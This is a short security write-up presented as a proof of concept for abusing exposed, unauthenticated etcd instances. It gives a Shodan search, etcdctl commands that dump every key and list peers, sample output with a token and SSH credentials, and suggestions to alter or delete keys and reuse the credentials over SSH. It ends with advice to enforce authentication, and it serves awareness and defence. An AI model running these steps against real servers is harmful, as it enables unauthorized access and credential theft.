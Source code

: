 # PoC: Hacking Systems via Exposed ETCD Instances

[*Etcd*](https://github.com/etcd-io/etcd) is an open-source distributed key-value store that provides a reliable way to store data across a cluster of machines.  
It's often used as a foundational component in distributed systems, serving as a distributed coordination service for managing configurations, maintaining state, and facilitating communication between different parts of a distributed system.  

Originally developed by CoreOS, etcd is written in Go and uses the **Raft consensus algorithm** to ensure consistency and fault-tolerance.  
It's designed to be highly available, durable, and scalable, making it suitable for use in production environments where reliability and consistency are crucial.  

Some common use cases for etcd include service discovery, leader election, configuration management, and coordination between distributed components.  
It's widely used in container orchestration systems like **Kubernetes**, where it helps manage cluster state and configuration data for containers and their applications.  

It is not uncommon to encounter instances of etcd publicly exposed and lacking authentication measures.  
In such cases, malevolent actors may exploit the API using tools like curl or, preferably, [*etcdctl*](https://github.com/etcd-io/etcd/blob/main/etcdctl/README.md), to perform malicious operations. Here is an example of a real-world scenario.  

## The Scenario
A malicious actor is probing exposed services on [*Shodan*](https://www.shodan.io/) with the following simple query: `etcd`.  
After several attempts, they discover an instance of etcd without authentication and attempt to list the *keys/values* using the following command:  
```console
export ETCDCTL_ENDPOINTS="http://$EXPOSED_IP:2379" \
&& export ETCDCTL_API=3 \
&& etcdctl get --prefix ""
```  

Possible Output:  

```console
/apis/url/
https://my.api.com/v1/users/
apis/token/
wBtkA97eCyqPfQWtGBXf35T5AYbAuKGrQ1Ifq6wgzwjhZXtr87yQDgokSjfiVCVI
/ssh/user/
system
/ssh/pass/
P4SsW0rd_+^"!
```  

> Note
> the attacker can also list all the etcd peers with this command: `etcdctl member list`  

Now, please bear in mind that this is merely a hypothetical example.  
An attacker would need to be exceptionally fortunate to stumble upon such data. Nevertheless, albeit rare, such occurrences can transpire, and we can assure you that they have occurred in the past.  

It's worth noting that, at this juncture, an attacker could potentially inflict damage on the system by deleting and/or modifying the values of the etcd keys.  
In this specific scenario, if the server's IP also exposes SSH, the attacker might also attempt to gain access using the values of the keys */ssh/user/* and */ssh/pass/*.  


This scenario serves as a yet another reminder to consistently implement robust authentication mechanisms for our systems and to refrain from exposing them to the entire world unless absolutely necessary (which, in 99.99% of cases, it is not).  


<br>  


- [Back to main page](../../../index.md)  